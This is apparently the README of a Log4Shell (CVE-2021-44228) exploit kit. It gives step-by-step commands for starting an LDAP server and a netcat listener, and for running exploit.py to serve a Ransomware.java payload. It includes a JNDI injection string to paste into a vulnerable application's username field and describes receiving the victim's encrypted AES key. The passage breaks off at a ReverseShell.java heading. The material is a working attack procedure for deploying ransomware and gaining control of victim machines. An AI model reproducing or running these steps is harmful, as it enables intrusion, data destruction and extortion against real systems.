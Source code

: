 # Attacker Machine

You will find some scripts that automate some of the processes that lead to the results.
We suggest you to follow the steps below to set everything up.

## LDAP Server

```bash
$ mvn package
```

## Exploit

### Requirements:
```bash
£ pip install -r requirements.txt
```

### Usage:
Start a netcat listener to gain information or control of victim machine.
```bash
$ nc -lvnp 9001
```

#### Ransomware.java:
You will find a Ransomware POC that can be used to encrypt victim's data. To make everything work you shall follow these steps: 

1. Generate RSA key pair, default output folder is *./RSA_KEYS*:
```bash
$ python3 rsa-keygen.py
```
2. Run the exploit script, which will start up a LDAP server that will serve the chosen malware:
```bash
$ python3 exploit.py ./payloads/Ransomware.java --ip localhost --port 8000 --ncport 9001

[!] CVE: CVE-2021-44228
[!] Log4j vulnerability POC tool
Loading malicious code file payloads/Ransomware.java

[+] Ransomware.java class created success
[+] Setting up LDAP server
                                                    
[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```
3. Then you shall past the "Send me" value in the username field of the vulnerable web application.

4. You will receive on your netcat listener the AES key encrypted with your generated RSA public key.

5. Use the decrypt script to get a base64 encoded and decrypted AES key:
```bash
$ python3 decrypt.py MxZYTyiIW9C1ROhMcRRdZZFHtAEuQzRaVfm+jGWTXs974ynhES...
```

#### ReverseShell.java:
